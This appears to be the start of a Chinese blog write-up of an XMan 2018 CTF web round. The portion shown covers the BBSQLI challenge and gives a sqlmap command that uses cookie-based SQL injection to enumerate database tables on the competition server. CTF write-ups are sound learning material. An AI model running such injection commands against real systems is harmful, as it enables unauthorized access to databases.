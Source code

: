 ```yaml
---

layout:     post                    # 使用的布局（不需要改） 

title:      XMan个人排位赛Web               # 标题  

subtitle:   BBSQLI，Simple Ssrf，makeit，SSHOP #副标题 

date:       2018-08-18              # 时间 

author:     xyeee                      # 作者 

header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片 

catalog: true                       # 是否归档 

tags:                               #标签     

- xman
- ctf

---
```


 ## Web

> WP

# web_wp

## BBSQLI

### 0x00

此题有两种做法（请教了营里两个大佬）,sqlmap的cookie注入或者盲注

以下是sqlmap的方法，找了一份sqlmap使用教程

[sqlmap使用教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)

### 0x01

第一步，cookie注入猜解表

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --table --level 2
```

注：如有选择Y or n,一路n即可
